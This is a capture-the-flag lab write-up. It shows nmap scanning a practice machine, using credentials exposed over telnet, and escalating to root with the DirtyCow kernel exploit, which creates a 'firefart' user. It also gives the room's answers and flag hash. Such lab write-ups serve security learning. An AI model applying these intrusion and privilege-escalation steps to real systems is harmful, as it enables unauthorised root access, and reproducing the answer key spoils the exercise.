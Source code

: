 ### IP

`10.10.163.112`

### Port scanning

`sudo nmap -sV -sS 10.10.163.112`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
23/tcp  open  telnet  Linux telnetd
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### What old, deprecated protocol and service is running?

`telnet`

### What credential was left for you?

I type `telnet 10.10.163.112` and there are credentials left.

`clauschristmas`

### What distribution of Linux and version number is this server running?

I can check that with:

```
 cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"
```

`Ubuntu 12.04`

### Who got here first?

`grinch`

###  What is the verbatim syntax you can use to compile, taken from the real C source code comments?

`gcc -pthread dirty.c -o dirty -lcrypt`

We are using dirtycow exploit which was saved on a box.

### What "new" username was created, with the default operations of the real C source code?

`firefart`

New user was created and has predefined password (set while running exploit), it also has root privileges:

```
firefart@christmas:~# id
uid=0(firefart) gid=0(root) groups=0(root)
```

### What is the MD5 hash output?

I checked root's home directory and there are two files:

```
firefart@christmas:~# ls -al
total 24
drwx------  2 firefart root 4096 Nov 21 20:38 .
drwxr-xr-x 24 firefart root 4096 Nov 21 20:38 ..
-rw-------  1 firefart root    0 Nov 21 20:38 .bash_history
-rw-r--r--  1 firefart root 3106 Apr 19  2012 .bashrc
-rwxr-xr-x  1 firefart root 1422 Nov 21 20:37 christmas.sh
-rw-r--r--  1 firefart root  611 Nov 21 20:37 message_from_the_grinch.txt
-rw-r--r--  1 firefart root  140 Apr 19  2012 .profile
```

In a message, John asks to create a file named `coal` so `touch coal` 
and then to pipe a result of `tree` command to `md5sum`:

```
firefart@christmas:~# tree | md5sum
8b16f00dd3b51efadb02c1df7f8427cc  -
```

`8b16f00dd3b51efadb02c1df7f8427cc` is the flag

### Conclusion

We can try getting user's credential  e.g with telnet, and while we are inside a system, perform an enumeration in order to  find a way for privilege escalation.

In this case, `Ubuntu 12.04` seemed to be vulnerable to `dirtycow` exploit which allowed to get root.

